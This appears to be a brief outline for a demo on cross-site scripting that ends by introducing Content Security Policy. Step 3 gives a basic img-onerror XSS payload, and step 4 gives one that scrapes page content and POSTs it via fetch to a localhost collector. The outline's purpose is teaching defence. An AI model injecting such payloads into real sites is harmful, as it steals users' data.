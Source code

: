 1. Demo site
2. Explain external sources
3. First vulnerability: inject `<img src="/" onerror="alert(1);">`
4. Second vulnerability: `<img src="/" onerror="Array(...document.querySelectorAll('.wines-container div')).map(n => {return {data: n.innerText}}).forEach(text => {fetch('http://localhost:3000/data', {method: 'POST', mode: 'cors', headers: {'Content-Type': 'application/json'}, body: JSON.stringify(text)})});">`
5. Enter CSP https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP